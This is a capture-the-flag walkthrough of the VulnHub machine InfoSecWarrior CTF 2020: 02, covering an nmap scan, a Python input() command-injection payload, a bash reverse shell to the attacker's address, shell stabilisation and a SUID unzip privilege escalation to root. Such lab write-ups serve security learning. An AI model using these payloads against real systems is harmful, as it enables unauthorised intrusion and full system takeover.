

<h1>INFOSECWARRIOR CTF 2020: 02</h1>

Today, we'll be looking at the infosecwarrior level 2 machine on vulnhub.

You can download the mahcine [here](https://www.vulnhub.com/entry/infosecwarrior-ctf-2020-02,447/).

Let's scan the machine with nmap.

```nmap -sS -A -p- 192.168.233.103```

```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.233.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 09:00 EDT
Nmap scan report for 192.168.233.103
Host is up (0.00044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89f21b40c40c3c7939739dfcccab2b0a (RSA)
|   256 05dbcf2990f6e43f4f74c9d257816eff (ECDSA)
|_  256 9a7df5dd9051b2eb3c33369f250e8c21 (ED25519)
56563/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     Welcome to 
|     ____ __ __ _ 
|     ___/ ___| ___ __\x20\x20 / /_ _ _ __ _ __(_) ___ _ __ 
|     \x20/ _ / __\x20\x20/\x20/ / _` | '__| '__| |/ _ \| '__|
|     |__) | __/ (__ \x20V V / (_| | | | | | | (_) | | 
|     |___|_| |_|_| ___/____/ ___|___| _/_/ __,_|_| |_| |_|___/|_| 
|     Please input number of ping packet you want to send??: Traceback (most recent call last):
|     File "./script.py", line 18, in <module>
|     int(input(' Please input number of ping packet you want to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   NULL: 
|     Welcome to 
|     ____ __ __ _ 
|     ___/ ___| ___ __\x20\x20 / /_ _ _ __ _ __(_) ___ _ __ 
|     \x20/ _ / __\x20\x20/\x20/ / _` | '__| '__| |/ _ \| '__|
|     |__) | __/ (__ \x20V V / (_| | | | | | | (_) | | 
|     |___|_| |_|_| ___/____/ ___|___| _/_/ __,_|_| |_| |_|___/|_| 
|_    Please input number of ping packet you want to send??:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port56563-TCP:V=7.93%I=7%D=6/30%Time=649ED215%P=x86_64-pc-linux-gnu%r(N
SF:ULL,216,"Welcome\x20to\x20\r\n\x20\r\n\r\n\x20\x20___\x20\x20\x20\x20\x
SF:20\x20\x20\x20__\x20\x20\x20\x20\x20\x20____\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20__\x20\x20\x20\x20\x20\x20\x20\x20__\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\r\n\x20\|_\x20_\|_\x20__\x20\x20/\x20_\|\x20___/\x20___\|\
SF:x20\x20___\x20\x20__\\\x20\\\x20\x20\x20\x20\x20\x20/\x20/_\x20_\x20_\x
SF:20__\x20_\x20__\(_\)\x20___\x20\x20_\x20__\x20\r\n\x20\x20\|\x20\|\|\x2
SF:0'_\x20\\\|\x20\|_\x20/\x20_\x20\\___\x20\\\x20/\x20_\x20\\/\x20__\\\x2
SF:0\\\x20/\\\x20/\x20/\x20_`\x20\|\x20'__\|\x20'__\|\x20\|/\x20_\x20\\\|\
SF:x20'__\|\r\n\x20\x20\|\x20\|\|\x20\|\x20\|\x20\|\x20\x20_\|\x20\(_\)\x2
SF:0\|__\)\x20\|\x20\x20__/\x20\(__\x20\\\x20V\x20\x20V\x20/\x20\(_\|\x20\
SF:|\x20\|\x20\x20\|\x20\|\x20\x20\|\x20\|\x20\(_\)\x20\|\x20\|\x20\x20\x2
SF:0\r\n\x20\|___\|_\|\x20\|_\|_\|\x20\x20\\___/____/\x20\\___\|\\___\|\x2
SF:0\\_/\\_/\x20\\__,_\|_\|\x20\x20\|_\|\x20\x20\|_\|\\___/\|_\|\x20\x20\x
SF:20\r\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\r\n\r\n\r\n\x20Please\x20input\x20number\x20of\x20pi
SF:ng\x20packet\x20you\x20want\x20to\x20send\?\?:\x20")%r(GenericLines,30B
SF:,"Welcome\x20to\x20\r\n\x20\r\n\r\n\x20\x20___\x20\x20\x20\x20\x20\x20\
SF:x20\x20__\x20\x20\x20\x20\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20__\x20\x20\x20\x20\x20\x20\x20\x20__\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\r\n\x20\|_\x20_\|_\x20__\x20\x20/\x20_\|\x20___/\x20___\|\x20\x20
SF:___\x20\x20__\\\x20\\\x20\x20\x20\x20\x20\x20/\x20/_\x20_\x20_\x20__\x2
SF:0_\x20__\(_\)\x20___\x20\x20_\x20__\x20\r\n\x20\x20\|\x20\|\|\x20'_\x20
SF:\\\|\x20\|_\x20/\x20_\x20\\___\x20\\\x20/\x20_\x20\\/\x20__\\\x20\\\x20
SF:/\\\x20/\x20/\x20_`\x20\|\x20'__\|\x20'__\|\x20\|/\x20_\x20\\\|\x20'__\
SF:|\r\n\x20\x20\|\x20\|\|\x20\|\x20\|\x20\|\x20\x20_\|\x20\(_\)\x20\|__\)
SF:\x20\|\x20\x20__/\x20\(__\x20\\\x20V\x20\x20V\x20/\x20\(_\|\x20\|\x20\|
SF:\x20\x20\|\x20\|\x20\x20\|\x20\|\x20\(_\)\x20\|\x20\|\x20\x20\x20\r\n\x
SF:20\|___\|_\|\x20\|_\|_\|\x20\x20\\___/____/\x20\\___\|\\___\|\x20\\_/\\
SF:_/\x20\\__,_\|_\|\x20\x20\|_\|\x20\x20\|_\|\\___/\|_\|\x20\x20\x20\r\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\r\n\r\n\r\n\x20Please\x20input\x20number\x20of\x20ping\x20p
SF:acket\x20you\x20want\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recen
SF:t\x20call\x20last\):\r\n\x20\x20File\x20\"\./script\.py\",\x20line\x201
SF:8,\x20in\x20<module>\r\n\x20\x20\x20\x20num\x20=\x20int\(input\('\x20Pl
SF:ease\x20input\x20number\x20of\x20ping\x20packet\x20you\x20want\x20to\x2
SF:0send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string>\",\x20line\x200\r\n\x
SF:20\x20\x20\x20\r\n\x20\x20\x20\x20\^\r\nSyntaxError:\x20unexpected\x20E
SF:OF\x20while\x20parsing\r\n");
MAC Address: 08:00:27:D7:85:00 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms 192.168.233.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.44 seconds
```

The machine is running ssh and another service that looks like it's executing a python script.

Let's connect to it with netcat.

```nc -nv 192.168.233.103 56563```

It's sending ping packets.


This might be vulnerable to command injection.

I tried to execute commands on the system, but I failed.

So, I searched online for python input command injection and found this great article [here](https://www.stackhawk.com/blog/command-injection-python/).

This command can be used to open a shell: ```__import__('os').system('/bin/bash')```


I then found the note in the home directory of the user **bla1**.

It contains the password of the user **bla2**.

But first we need to decode it using base64.

```echo "czNjcjN0" | base64 -d```

We got the password!


I tried to ssh into user **bla2**, but I couldn't.



After that, I looked at the hint from ssh.

And I looked for the hostname and the codename.

```hostname```

```cat /etc/os-release | grep CODENAME```


We can see 4 users including **ck04** in the home directory.


I then tried using those as credentials and got in.

We got the user flag!

I then opened a bash shell.


The shell wasn't interactive so I opened a reverse shell on my local machine.

```bash -i >& /dev/tcp/192.168.233.102/4444 0>&1```


You can use these two commands to make your shell more stable.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

I then used ```sudo -l``` and found that we can run any command through the user **bla**.

We can use that to open a shell as **bla**.


I then used ```sudo -l``` again and found that we can run unzip as root.


Let's search for **unzip** on [gtfobins](https://gtfobins.github.io/).


We can run the following commands to esculate to root.

```cd /tmp```

```cp /bin/sh .```

```chmod +s sh```

```zip privesc.zip sh```

```sudo unzip -K privesc.zip```

```./sh -p```

We are root!

